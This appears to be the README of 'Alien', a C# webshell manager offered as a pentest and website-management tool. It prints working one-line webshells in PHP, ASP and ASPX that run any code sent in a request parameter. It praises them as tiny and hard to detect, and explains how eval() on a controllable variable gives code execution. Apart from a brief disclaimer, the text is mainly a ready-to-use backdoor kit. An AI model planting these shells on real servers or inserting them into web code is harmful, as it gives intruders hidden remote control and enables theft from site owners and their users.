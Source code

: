 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

Also, Alien support asmx , ashx webshell

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot

![1](https://github.com/malbuffer4pt/WebBus/blob/main/1.png)
![2](https://github.com/malbuffer4pt/WebBus/blob/main/2.png)
![3](https://github.com/malbuffer4pt/WebBus/blob/main/3.png)
![4](https://github.com/malbuffer4pt/WebBus/blob/main/4.png)

## Acknowledgements
Every veteran who study in webshell.
